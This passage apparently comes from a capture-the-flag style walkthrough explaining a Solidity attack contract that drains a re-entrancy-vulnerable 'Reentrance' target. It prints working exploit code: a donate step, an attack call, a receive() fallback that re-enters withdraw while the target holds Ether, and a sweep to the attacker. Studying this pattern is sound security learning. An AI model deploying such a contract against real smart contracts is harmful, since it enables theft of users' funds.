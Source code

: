 

```
  constructor(address payable _target) {
    target = IReentrance(_target);
  }
```

Initializes the target contract address.


* **Donation:**



```
  function donate() external payable {
    target.donate{value: msg.value}(address(this));
  }
```

Allows anyone to send Ether to the target contract. This is necessary to be able to attack the contract.


* **Attack:**



```
  function attack() external {
    target.withdraw(0.001 ether);
  }
```

Because we already donated some funds, we can now freely call the `withdraw` function. The attack function calls the target contract’s `withdraw` function, starting the exploitation of the re-entrancy vulnerability.


* **Fallback Function:**



```
  receive() external payable {
    if (address(target).balance > 0) {
      target.withdraw(0.001 ether);
    }
  }
```

When we call the victim contract’s `withdraw` function, our (Attack) contract’s fallback function is invoked when the target contract sends Ether back, allowing for further re-entrant calls.


* **Withdraw:**



```
  function withdraw() external {
    msg.sender.call{value: address(this).balance}("");
  }
```
